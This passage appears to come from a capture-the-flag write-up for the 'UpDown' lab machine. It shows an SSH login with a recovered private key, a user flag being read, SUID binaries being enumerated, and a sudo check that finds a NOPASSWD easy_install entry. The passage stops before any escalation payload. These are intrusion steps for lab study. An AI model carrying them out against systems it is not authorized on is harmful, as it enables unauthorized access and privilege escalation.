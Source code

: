 ```bash
```

Now to connect via SSH and obtain user flag:

```bash
└─$ chmod 600 developer_id_rsa

└─$ ssh developer@$IP -i developer_id_rsa

Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36
developer@updown:~$ cat user.txt
a77f9a8331ad65e12733f5fd25f64dc3
developer@updown:~$ 
```

---

## Vertical Privilege Escalation

Once I got into the target machine as `developer`, I ran the following commands to see where I can start my privilege escalation:

```bash
developer@updown:~$ groups
developer
developer@updown:~$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/at
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/home/developer/dev/siteisup
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
developer@updown:~$ file /usr/local/bin/easy_install
/usr/local/bin/easy_install: Python script, ASCII text executable
```
